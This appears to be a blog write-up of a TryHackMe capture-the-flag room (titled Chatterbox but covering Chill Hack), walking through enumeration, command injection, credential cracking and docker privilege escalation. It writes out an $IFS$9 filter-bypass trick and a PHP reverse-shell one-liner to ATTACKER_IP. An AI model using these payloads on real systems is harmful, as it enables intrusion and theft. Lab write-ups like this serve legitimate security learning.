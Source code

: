 ```yaml
---
layout: post
title: THM Chatterbox writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<p>Start by enumerating  ports with an NMAP Scan.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80</p>
<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed</p>
<img src="/img/chillhack/1.nmap.png">

<p>login with “anonymous:anonymous” </p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders. Let’s try and enumerate the sub directories. </p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s run dirbuster first.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says command. Let’s try and issue some commands. Since we know from NMAP this is probably a Liux box let’s try some bash commands</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id command we get a response in our web browser. Let’s try and get a use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking about. There filtering out some keywords - “nc” appears to be one on the list</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work</p>
<img src="/img/chillhack/12.burp.png">

<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server) for white spaces. I’m assuming there’s an input validation that has a hard coded list of black listed keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>And we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive.</p>
<img src="/img/chillhack/15.first-shell.png">

<p>Using this python 3 command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images that I downloaded on to my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a mysql user name and password. Let’s note these and see if we can connect to the mysql server. </p>
<img src="/img/chillhack18.mysql-creds.png/">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.. </p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s cech the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password</p>
<img src="/img/chillhack/28.base64-d.png">


<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">

<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




